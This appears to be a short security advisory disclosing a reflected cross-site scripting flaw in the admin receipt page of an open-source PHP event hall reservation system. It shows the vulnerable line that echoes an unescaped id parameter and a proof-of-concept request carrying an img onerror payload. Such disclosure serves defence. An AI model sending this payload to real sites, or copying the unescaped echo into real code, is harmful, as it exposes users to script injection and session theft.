 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS receipt.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/receipt.php

## Code
```php
            <h1 class="logo "><a href="../home.php?id=<?php echo $id; ?>">Emisha</a></h1>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/receipt.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")>&room_id=1 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


